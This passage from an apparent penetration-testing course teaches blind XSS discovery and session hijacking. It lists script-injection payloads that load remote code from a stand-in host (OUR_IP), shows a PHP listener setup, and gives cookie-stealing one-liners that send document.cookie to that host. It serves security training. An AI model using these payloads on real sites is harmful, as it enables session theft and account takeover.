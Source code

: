 <p>If we get a request for <code>/username</code>, then we know that the <code>username</code> field is vulnerable to XSS, and so on. With that, we can start testing various XSS payloads that load a remote script and see which of them sends us a request. The following are a few examples we can use from <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss">PayloadsAllTheThings</a>:</p>
<pre><code class="language-html">&lt;script src=http://OUR_IP&gt;&lt;/script&gt;
'&gt;&lt;script src=http://OUR_IP&gt;&lt;/script&gt;
"&gt;&lt;script src=http://OUR_IP&gt;&lt;/script&gt;
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
&lt;script&gt;function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();&lt;/script&gt;
&lt;script&gt;$.getScript("http://OUR_IP")&lt;/script&gt;
</code></pre>
<p>As we can see, various payloads start with an injection like <code>'&gt;</code>, which may or may not work depending on how our input is handled in the backend. As previously mentioned in the <code>XSS Discovery</code> section, if we had access to the source code (i.e., in a DOM XSS), it would be possible to precisely write the required payload for a successful injection. This is why Blind XSS has a higher success rate with DOM XSS type of vulnerabilities.</p>
<p>Before we start sending payloads, we need to start a listener on our VM, using <code>netcat</code> or <code>php</code> as shown in a previous section:</p>
<pre><code class="language-shell-session">[!bash!]$ mkdir /tmp/tmpserver
[!bash!]$ cd /tmp/tmpserver
[!bash!]$ sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
</code></pre>
<p>Now we can start testing these payloads one by one by using one of them for all of input fields and appending the name of the field after our IP, as mentioned earlier, like:</p>
<pre><code class="language-html">&lt;script src=http://OUR_IP/fullname&gt;&lt;/script&gt; #this goes inside the full-name field
&lt;script src=http://OUR_IP/username&gt;&lt;/script&gt; #this goes inside the username field
...SNIP...
</code></pre>
<div class="card bg-light">
<div class="card-body">
<p class="mb-0">Tip: We will notice that the email must match an email format, even if we try manipulating the HTTP request parameters, as it seems to be validated on both the front-end and the back-end. Hence, the email field is not vulnerable, and we can skip testing it. Likewise, we may skip the password field, as passwords are usually hashed and not usually shown in cleartext. This helps us in reducing the number of potentially vulnerable input fields we need to test.</p>
</div>
</div>
<p>Once we submit the form, we wait a few seconds and check our terminal to see if anything called our server. If nothing calls our server, then we can proceed to the next payload, and so on. Once we receive a call to our server, we should note the last XSS payload we used as a working payload and note the input field name that called our server as the vulnerable input field.</p>
<p><code>Try testing various remote script XSS payloads with the remaining input fields, and see which of them sends an HTTP request to find a working payload</code>.</p>
<hr/>
<h2>Session Hijacking</h2>
<p>Once we find a working XSS payload and have identified the vulnerable input field, we can proceed to XSS exploitation and perform a Session Hijacking attack.</p>
<p>A session hijacking attack is very similar to the phishing attack we performed in the previous section. It requires a JavaScript payload to send us the required data and a PHP script hosted on our server to grab and parse the transmitted data.</p>
<p>There are multiple JavaScript payloads we can use to grab the session cookie and send it to us, as shown by <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#exploit-code-or-poc">PayloadsAllTheThings</a>:</p>
<pre><code class="language-javascript">document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
</code></pre>